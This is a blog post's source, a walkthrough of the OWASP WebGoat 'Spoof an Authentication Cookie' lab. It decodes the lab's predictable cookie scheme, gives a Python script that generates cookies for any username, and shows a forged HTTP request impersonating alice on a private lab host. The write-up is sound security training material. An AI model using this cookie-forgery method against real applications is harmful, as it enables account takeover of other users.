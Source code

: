 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Session Management Flaws"
subtitle: "Spoof an Authentication Cookie"
date:   2017-02-01 10:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Spoof an Authentication Cookie
Instructions:

- The user should be able to bypass the authentication check. Login using the webgoat/webgoat account to see what happens. You may also try aspect/aspect. When you understand the authentication cookie, try changing your identity to alice. 

Alright, lets log in as webgoat/webgoat and grab the request and response:

```
Username=webgoat&Password=webgoat&SUBMIT=Login
```

```
Set-Cookie: AuthCookie=65432ubphcfx
```

Alright, let's check out aspect/aspect:

```
Set-Cookie: AuthCookie=65432udfqtb
```

Hmm..so the first 5 characters, the integers, seem constant across these logins. The letters that follow seem to have the same number of characters as the username for the login. Let's take a look at the letters a few different ways:

```
webgoat
ubphcfx

aspect
udfqtb

webgoat
xfchpbu

aspect
btqfdu
```

Alright, looks like we might have a character shift by one (+1) and a reversal. Let's write a reverse engineered cookie generator:

{% highlight python %}
import sys

def login_cookie(username):
	chars = "abcdefghijklmnopqrstuvwxyz"
	cookie = ""
	for c in username.lower():
		index = chars.index(c)
		cookie += chars[(index+1) % len(chars)]

	print "65432"+cookie[::-1]

def main():
	login_cookie(sys.argv[1])

main()
{% endhighlight %}

Okay, let's give it a shot with webgoat:

```
>python 19_cookie_reveng.py webgoat
65432ubphcfx
```

Cool cool. Let's get alice's code:

```
>python 19_cookie_reveng.py alice
65432fdjmb
```

Okay, now let's login to webgoat's account and hit the ```Refresh``` button and capture that request. Now let's forge it with alice's ```AuthCookie```:

```
GET /WebGoat/attack? HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=301&menu=1800
Cookie: AuthCookie=65432fdjmb; JSESSIONID=D49B1C7B6EE2243929D320213C6A9C1B; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
```

<img src="{{ site.baseurl }}/images/2017-02-01-webgoat_part_19/completed.jpg">

Forgery complete!